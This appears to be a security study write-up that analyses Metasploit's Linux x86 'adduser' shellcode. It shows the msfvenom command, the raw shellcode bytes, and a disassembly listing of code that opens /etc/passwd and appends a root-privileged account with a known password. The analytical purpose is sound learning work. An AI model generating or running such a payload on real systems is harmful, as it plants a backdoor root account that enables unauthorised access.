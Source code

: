 # Analyze: Add User

# Create shellcode
```bash
msfvenom -p linux/x86/adduser -f c USER=username PASS=pass123
```

The output of this command is shellcode that will create a user with the username of 'username' and a password of 'pass123'.

# Analysis

## Disassemble w/ bash
```bash
echo -n "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x26\x00\x00\x00\x75\x73\x65\x72\x6e\x61\x6d\x65\x3a\x41\x7a\x79\x64\x77\x66\x6f\x69\x67\x42\x54\x72\x73\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u -
```

## Disassembled Assembly

```x86asm
00000000  31C9              xor ecx,ecx
00000002  89CB              mov ebx,ecx
00000004  6A46              push byte +0x46
00000006  58                pop eax
00000007  CD80              int 0x80
00000009  6A05              push byte +0x5
0000000B  58                pop eax
0000000C  31C9              xor ecx,ecx
0000000E  51                push ecx
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f
0000001E  89E3              mov ebx,esp
00000020  41                inc ecx
00000021  B504              mov ch,0x4
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E826000000        call 0x51
0000002B  7573              
0000002D  65726E            
00000030  61                popa
00000031  6D                insd
00000032  653A417A          cmp al,[gs:ecx+0x7a]
00000036  7964              jns 0x9c
00000038  7766              ja 0xa0
0000003A  6F                outsd
0000003B  6967425472733A    imul esp,[edi+0x42],dword 0x3a737254
00000042  303A              xor [edx],bh
00000044  303A              xor [edx],bh
00000046  3A2F              cmp ch,[edi]
00000048  3A2F              cmp ch,[edi]
0000004A  62696E            bound ebp,[ecx+0x6e]
0000004D  2F                das
0000004E  7368              jnc 0xb8
00000050  0A598B            or bl,[ecx-0x75]
00000053  51                push ecx
```